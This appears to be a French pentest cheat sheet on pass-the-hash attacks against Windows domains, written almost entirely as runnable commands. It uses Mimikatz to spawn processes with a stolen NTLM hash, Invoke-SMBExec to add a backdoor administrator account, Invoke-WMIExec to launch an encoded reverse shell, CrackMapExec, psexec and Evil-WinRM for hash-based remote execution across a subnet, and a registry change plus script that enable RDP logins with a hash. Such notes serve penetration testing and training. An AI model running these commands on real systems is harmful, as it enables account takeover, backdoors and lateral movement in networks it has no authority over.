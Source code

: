 ```yaml
---
public: true # set to true to make the article publishable
---
```

## Localement
### Mimikatz

On peut créer un processus disposant des identifiants réseau d'un autre utilisateur pour accéder à des ressources réseau en son nom
```
# lancer un processus en tant qu'un autre utilisateur (julio) dont on connait le hash
    # on peut remplacer /rc4 par /NTLM
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:domain.local /run:cmd.exe" exit


```

### Invoke-TheHAsh

On peut également exécuter des commandes à distance en tant qu'un utilisateur dont on possède le Hash (s'il possède les droits requis bien évidemment)
```powershell

# Powershell avec Invoke-TheHash (https://github.com/Kevin-Robertson/Invoke-TheHash)
Import-Module .\Invoke-TheHash.psd1

# exécution de command (backdoor user)
Invoke-SMBExec -Target 172.16.1.10 -Domain domain.local -Username ad_user -Hash AAAAAAAAAA88057E06A81B54E73B949B -Command "net user rebrec Password123 /add && net localgroup administrators rebrec /add" -Verbose

# lancement d'un reverse shell
Invoke-WMIExec -Target DC01 -Domain domain.local -Username ad_user -Hash AAAAAAAAAA88057E06A81B54E73B949B -Command "powershell -e <base64_reverseshell_payload>"
```

## A Distance

### Crackmapexec
```
# Tester les machines d'un sous réseau 
cme smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
cme smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 --local-auth

# Exécuter une commande sur les machines
cme smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami

```

### Impacket

```
psexec.py Administrator@$TARGET_IP -hashes :30B3783CE2ABF1AF70F77D0660CF3453  
```

### Evil-WinRM
```
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```

### Via RDP
Il est nécessaire de désactiver une restriction empêchant de se connecter en RDP en administrateur via du PtH. Pour ce faire :

```
# Localement
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f

# A Distance
cme smb $TARGET_IP -u Administrator -H '30B3783CE2ABF1AF70F77D0660CF3453' --local-auth -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f' 
```

On peut ensuite utiliser **xfreerdp**

```
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```

**Attention**
Seul le compte Administrateur local (RID-500) peut utiliser PtH sur les environnements où l'UAC est actif.
Le paramètre `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy`est à `1`, alors tous les compte locaux membre du groupe `Administrateur Local` pourront le faire également (car ils disposeront d'un jeton "Full Integrity")
** Les comptes utilisateurs du domaine qui sont membres du groupe `Administrateur Local` ne sont dans tous les cas, pas bloqués et peuvent utiliser une attaque de type PtH**

#### Script complet (si execution à distance autorisée)

```bash
################## Non testé pour l'instant
export HASH='30B3783CE2ABF1AF70F77D0660CF3453'
export USER='Administrator'

echo "Check status of RestrictedAdmin setting"
cme smb $TARGET_IP -u $USER -H $HASH --local-auth -x 'reg query HKLM\System\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin' 

echo "Disabling"
cme smb $TARGET_IP -u $USER -H $HASH --local-auth -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f' 

echo "Connecting"
xfreerdp  /v:$TARGET_IP /u:$USER /pth:$HASH
```